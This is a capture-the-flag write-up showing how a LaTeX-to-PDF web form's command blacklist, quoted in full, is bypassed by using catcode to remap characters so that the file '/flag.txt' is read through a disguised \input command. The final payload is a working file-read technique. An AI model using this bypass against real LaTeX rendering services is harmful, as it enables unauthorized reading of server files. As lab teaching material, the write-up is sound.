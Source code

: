 # Latex

When visiting the website, we see it’s a simple form enabling us to input LaTeX code and get a PDF file showing the output:

![Screenshot from 2023-10-13 22.56.08.png](media/Screenshot_from_2023-10-13_22.56.08.png)

When reading the source code, we come across `main.go`, which holds the LaTeX logic of the website. `main.go` holds a list of commands that it considers as insecure:

```go
blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein", "usepackage", "fileline", "verbatiminput", "url", "href", "text", "write", "newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics", "openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
```

So normally when we are talking filters that are used ******************before****************** the code has actually been executed, we consider:

- Maybe we can bypass the filter by encoding the payload?
- Maybe we can insert some characters that make the payload pass the filter, but LaTeX ignores?

We tried both these without digging too much, didn’t work.

Another thing we saw was:

> Why does `\input` in the blacklist include the backslash and other commands don’t? Maybe we can find a way to include something between \ and input to make it pass the filter.
>

Then I came across this thing called [catcode](https://en.wikibooks.org/wiki/TeX/catcode), a command that essentially changes the “meaning” of a character. A simple PoC showed that it worked:

```latex
\documentclass[12pt]{article}
\begin{document}
\catcode`\@=0
@underline{hello}
\end{document}
```

![Screenshot 2023-10-13 at 23-07-20 http __localhost 52132_.png](./media/Screenshot_2023-10-13_at_23-07-20_http___localhost_52132_.png)

**The challenges we needed to solve where:**

- Execute `\input{/flag.txt}` by adding a char in-between or changing the meaning of `\`
- Change the meaning of `{`, `_` and `}` since they are included in the flag
- `{` and `}` still need to be available though, because they are used for the `{/flag.txt}` part

I ended up with the following payload:

```latex
\documentclass{article}
\begin{document}
\catcode`\@=0
\catcode`\{=9
\catcode`\}=9
\catcode`\_=13
\catcode`\?=1
\catcode`\!=2
@input?/flag.txt!
\catcode`\{=1
\catcode`\}=2
\catcode`\_=8
\catcode`\$=3
\catcode`\?=12
\catcode`\!=12
\end{document}
```

Which gave us the flag:

![Screenshot 2023-10-13 at 23-12-52 http __ctf.tcp1p.com 52132_.png](./media/Screenshot_2023-10-13_at_23-12-52_http___ctf.tcp1p.com_52132_.png)

Flag: `TCP1P{bypassing_latex_waf_require_some_latex_knowledge}`
